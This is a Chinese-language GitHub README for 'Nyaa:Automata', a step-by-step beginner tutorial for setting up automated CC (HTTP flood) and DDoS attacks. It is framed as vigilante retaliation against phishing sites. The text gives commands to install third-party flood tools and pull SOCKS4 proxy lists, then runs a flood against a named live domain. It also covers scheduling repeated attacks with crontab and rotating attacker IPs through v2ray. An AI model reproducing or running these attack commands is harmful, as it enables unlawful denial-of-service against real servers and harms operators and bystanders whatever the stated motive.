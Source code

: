 # Nyaa:Automata ![](https://img.shields.io/github/stars/NyaaCaster/HydaelynAttack?style=social)
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

- [x] Linux
- [x] Python3
- [x] Python3-pip
- [x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
- [x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
- [x] [**7zx/overload**](https://github.com/7zx/overload)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
```shell
apt update -y
apt install git vim zip python3 python3-pip -y
wget https://nyaacaster.github.io/Nyaa-Automata/requirements.txt
pip3 install -r requirements.txt
```

## 安装CC-attack
```shell
git clone https://github.com/Leeon123/CC-attack.git
```

## 获取Proxy-List的socks4喂料包
```shell
curl -sSf "https://raw.githubusercontent.com/shiftytr/proxy-list/master/socks4.txt" > socks4.txt
```
## 安装overload（ddos工具）
```shell
git clone https://github.com/7zx/overload.git
cd overload/
wget https://nyaacaster.github.io/Nyaa-Automata/overload_p.py
cd ..
```
- overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整


## 如果要单独一次性执行cc
```shell
python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/socks4.txt -v 4 -s 30
```shell
- 命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行ddos
```shell
python3 ~/overload/overload_p.py
```
- 自己修改建立了新脚本后执行自己的就可以


## 部署订制执行计划
```shell
crontab -e
```
- (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
```shell
0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/socks4.txt -v 4 -s 30
30 * * * * python3 ~/overload/overload_p.py
```
- 编辑完成后按esc退出编辑
- 英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
- 时间计划可以自己安排，最好跟我的0和30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
```shell
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)
```

- 每个时间单位的位置都可以写多个值，英文逗号分隔
- 例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）

## 如果想便捷的更换打击服务器的ip，可以使用v2ray的linux
-[**v2rayA**](https://v2raya.org/docs/prologue/installation/debian/)
客户端为网页版，可以随时随地访问，不过请自备飞机场

## TODO
- [ ] 把cc打击服务融合到高级触发器中
